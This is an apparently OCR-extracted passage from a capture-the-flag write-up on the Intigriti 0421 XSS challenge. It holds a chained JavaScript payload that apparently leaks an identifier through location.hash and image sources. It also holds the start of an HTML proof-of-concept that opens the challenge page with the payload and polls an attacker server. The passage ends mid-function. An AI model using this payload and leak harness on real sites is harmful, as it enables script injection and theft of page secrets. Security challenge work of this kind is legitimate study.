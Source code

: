 ``` js
n0.alt+identifier<location.hash+8?n7.src+++lo.src++:
n0.alt+identifier<location.hash+9?n8.src+++lo.src++:
n0.alt+identifier<location.hash+n1.alt?n9.src+++lo.src++:
n0.alt+identifier<location.hash+n2.alt?n10.src+++lo.src++:
n0.alt+identifier<location.hash+n3.alt?n11.src+++lo.src++:
n0.alt+identifier<location.hash+n4.alt?n12.src+++lo.src++:
n0.alt+identifier<location.hash+n5.alt?n13.src+++lo.src++:
n0.alt+identifier<location.hash+n6.alt?n14.src+++lo.src++:
n0.alt+identifier<location.hash+n7.alt?n15.src+++lo.src++:
n0.alt+identifier<location.hash+n8.alt?n16.src+++lo.src++:
n0.alt+identifier<location.hash+n9.alt?n17.src+++lo.src++:
n0.alt+identifier<location.hash+n10.alt?n18.src+++lo.src++:
n0.alt+identifier<location.hash+n11.alt?n19.src+++lo.src++:
n0.alt+identifier<location.hash+n12.alt?n20.src+++lo.src++:
n0.alt+identifier<location.hash+n13.alt?n21.src+++lo.src++:
n0.alt+identifier<location.hash+n14.alt?n22.src+++lo.src++:
n0.alt+identifier<location.hash+n15.alt?n23.src+++lo.src++:
n0.alt+identifier<location.hash+n16.alt?n24.src+++lo.src++:
n0.alt+identifier<location.hash+n17.alt?n25.src+++lo.src++:
n0.alt+identifier<location.hash+n18.alt?n26.src+++lo.src++:
n0.alt+identifier<location.hash+n19.alt?n27.src+++lo.src++:
n0.alt+identifier<location.hash+n20.alt?n28.src+++lo.src++:
n0.alt+identifier<location.hash+n21.alt?n29.src+++lo.src++:
n0.alt+identifier<location.hash+n22.alt?n30.src+++lo.src++:
n0.alt+identifier<location.hash+n23.alt?n31.src+++lo.src++:
n0.alt+identifier<location.hash+n24.alt?n32.src+++lo.src++:
n0.alt+identifier<location.hash+n25.alt?n33.src+++lo.src++:
n0.alt+identifier<location.hash+n26.alt?n34.src+++lo.src++:
n35.src+++lo.src++>`
```

``` html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
  </head>
  <body>  
  </body>
  <script>
    var payload = // see above
    payload = encodeURIComponent(payload)

    var baseUrl = 'https://my_server'

    // reset first
    fetch(baseUrl + '/reset').then(() => {
      start()
    })

    async function start() {
      // assume identifier start with 1
      console.log('POC started')
      if (window.xssWindow) {
        window.xssWindow.close()
      }

      window.xssWindow = window.open(`https://challenge-0421.intigriti.io/?error=${payload}#1`, '_blank')

      polling()
    }

    function polling() {
```